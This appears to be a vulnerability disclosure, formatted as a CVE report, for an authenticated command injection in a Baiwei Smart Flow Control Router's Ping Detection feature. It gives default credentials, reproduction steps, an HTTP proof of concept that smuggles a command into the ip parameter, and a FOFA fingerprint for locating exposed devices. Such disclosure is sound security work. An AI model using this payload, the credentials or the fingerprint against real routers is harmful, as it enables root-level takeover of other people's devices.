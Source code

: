 
# CVE Report: Command Injection in Baiwei Smart Flow Control Router

**Vendor / Project Name:**  
Baiwei Technology Co., Ltd. – Smart Flow Control Router

**Product Type:**  
Smart Network Router / Flow Control Gateway

**Affected Version(s):**  
All firmware versions where the admin interface can be accessed (default or custom credentials).  
> _Note: As long as an attacker can log in (e.g. via **admin/admin**), they can exploit this command-injection vulnerability on **any** firmware version._

---

## ⚠️ Impact

This vulnerability requires **authenticated access** (e.g., via default credentials `admin/admin`). Once logged in, the attacker can inject arbitrary system-level commands into the device, leading to full device compromise.

Since the exploit can be triggered by an authenticated user via the device's **Ping Detection feature**, the attack surface is any device with **administrative access** to the router, regardless of firmware version.

---

## 💥 Vulnerability Type

- **Type:** Command Injection (Remote Command Execution)  
- **CWE:** CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')

---

## 📝 Vulnerability Description

A command injection vulnerability exists in the Smart Flow Control Router developed by Baiwei Technology Co., Ltd. The flaw resides in the "Ping Detection" feature under the device maintenance interface. The IP address parameter passed to the `/goform/readPing` endpoint is not properly sanitized, allowing injection of arbitrary system commands.

An attacker logging in using the default credentials (`admin/admin`) can navigate to the Ping Detection interface and inject OS commands by tampering with the HTTP request.

---

## 🔧 Steps to Reproduce

1. Access the device's admin interface via a browser:
   ```
   http://[DEVICE-IP]:<PORT>
   ```
   *Common ports observed include `9090`, `2024`, `8081`, `2011`, etc.*

2. Login using default credentials: `admin / admin`

3. Go to:
   ```
   Device Maintenance > Ping Detection > Select Network Interface
   ```

4. Start packet capture (e.g., using Burp Suite), click "Start", and intercept the POST request.

5. Modify the `ip` parameter to inject a command.

---

## 📋 Proof of Concept (PoC)

```http
POST /goform/readPing HTTP/1.1
Host: [router-ip]:<PORT>
Content-Type: application/x-www-form-urlencoded

eth=127.0.0.1&ip=127.0.0.1;id&count=1
```

This triggers execution of the `id` command on the underlying OS, demonstrating successful exploitation.

---

## 📸 Proof of Concept Screenshots

1. **Successful Login**   admin:admin
   
   ![image-20250423105752123](baiwei-router-command-injection/image-20250423105752123.png)
   
   
   
2. **Intercepted Request with Injected Payload**  
   ![image-20250423105833277](baiwei-router-command-injection/image-20250423105833277.png)

2. ![image-20250423105905558](baiwei-router-command-injection/image-20250423105905558.png)
   
3. **Command Output Showing `uid=0(root)`**  
   ![image-20250423105944304](baiwei-router-command-injection/image-20250423105944304.png)

## ⚠️ Impact

An authenticated attacker can execute arbitrary system-level commands on the device, potentially leading to:

- Full device compromise
- Unauthorized access to internal networks
- Persistence mechanisms or lateral movement

---

## 🌐 Public Exposure Examples

Devices running the affected firmware were observed exposed to the Internet, including:

![image-20250423110109621](baiwei-router-command-injection/image-20250423110109621.png)

![image-20250423110204460](baiwei-router-command-injection/image-20250423110204460.png)

![image-20250423110250899](baiwei-router-command-injection/image-20250423110250899.png)

These endpoints confirm the vulnerability exists across multiple live deployments, with web interfaces exposed on non-standard ports.

---

## 🏷️ Reference

The affected device can be identified using the following FOFA/Web fingerprint:

app="BYTEVALUE-智能流控路由器"



---

## 🙋‍♂️ Credits

Discovered and reported by **KAEL**
